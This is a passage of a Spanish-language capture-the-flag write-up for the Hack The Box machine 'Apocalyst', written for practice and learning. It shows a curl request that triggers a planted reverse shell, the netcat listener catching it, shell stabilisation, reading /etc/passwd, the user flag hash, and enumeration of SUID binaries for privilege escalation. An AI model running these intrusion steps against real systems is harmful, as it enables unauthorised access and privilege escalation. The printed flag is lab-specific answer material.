 Ahora vamos a ocasionar un error para enviarnos la **reverse shell**

```bash
❯ curl -s -X GET "http://apocalyst.htb/?p=404.php"
```

Y ahora ganamos acceso

```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.129.152.159 35392
bash: cannot set terminal process group (1579): Inappropriate ioctl for device
bash: no job control in this shell
www-data@apocalyst:/var/www/html/apocalyst.htb$ whoami
whoami
www-data
www-data@apocalyst:/var/www/html/apocalyst.htb$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@apocalyst:/var/www/html/apocalyst.htb$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
www-data@apocalyst:/var/www/html/apocalyst.htb$ export TERM=xterm
```

Tenemos que convertirnos directamente en el usuario **root**

```bash
www-data@apocalyst:/home$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
falaraki:x:1000:1000:Falaraki Rainiti,,,:/home/falaraki:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
www-data@apocalyst:/home$ 
```

## User.txt 

```bash
www-data@apocalyst:/home/falaraki$ cat user.txt 
40b4d21095b44114de9129c5f531d1ca
www-data@apocalyst:/home/falaraki$ 
```

## Escalada de privilegios

Vemos el `pkexec` pero de momento no lo vamos a explotar

```bash
www-data@apocalyst:/$ find \-perm -4000 2>/dev/null
./bin/ping
./bin/ntfs-3g
./bin/mount
./bin/ping6
./bin/umount
./bin/su
./bin/fusermount
./usr/bin/at
./usr/bin/passwd
./usr/bin/newgrp
./usr/bin/sudo
./usr/bin/gpasswd
./usr/bin/chsh
./usr/bin/newgidmap
./usr/bin/newuidmap
```